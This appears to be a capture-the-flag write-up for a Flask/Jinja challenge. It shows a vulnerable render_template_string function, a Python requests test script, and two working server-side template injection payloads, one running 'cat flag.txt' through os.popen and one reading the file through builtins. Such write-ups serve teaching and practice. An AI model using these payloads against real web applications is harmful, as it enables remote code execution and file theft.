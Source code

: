 # Write-up for Easy Level

We get a form that lets us ask for a gift.  I shall skip over the
initial Recon / Play

We can also find the source on the ```/debug``` page using gobuster (or robots.txt)

## Identifying the SSTI

So we have:

  - Jinja
  - Un-sanitised User Input
  
Which means there could be SSTI. So we want to look for where user input gets put into the templates
(Before they get rendered)

This seems to be the right place as we are replacing the String contents with a kings name.

```
def showError(theKing = None):
    """
    Display an Error Message to the users
    """
    if not theKing:
        theKing = "Unknown King"
    return flask.render_template_string(errorPage.replace("WHO", theKing))
```

We could bugger about modifying the form in burp or whatever, but I will use requests

```
import requests
URL = "http://127.0.0.1:5000"
data = {"king": "{{ 4+4 }}"}
r = requests.post(URL, data)
print (r.text)
```

And we get Code Execution in the Response.

```
<h2>Error</h2>
<div class="alert alert-danger" role="alert">
ERROR:  8 is not a King
</div>
```

## Getting the Flag

Lets go for the standard code execution style thing
We end up with two possible payloads to find the flag...

  - ``` payload = {"king" : "{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag.txt')['read']()}}" }```

  - ```payload = {"king": "{{ request['application']['__globals__']['__builtins__'].open('flag.txt').read() }}"}```
  

# Easter Egg.

There is also the "BoloRei" function.  (Its a xmas bread,  like a easter-egg i suppose)

If we ask the kings for a flag we get the following message

```
    flag
    Polite people might get what they want
```

Lets ask nicely.

```
    A flag please
    As you asked nicely. CUEH{TEMPFLAG}
```



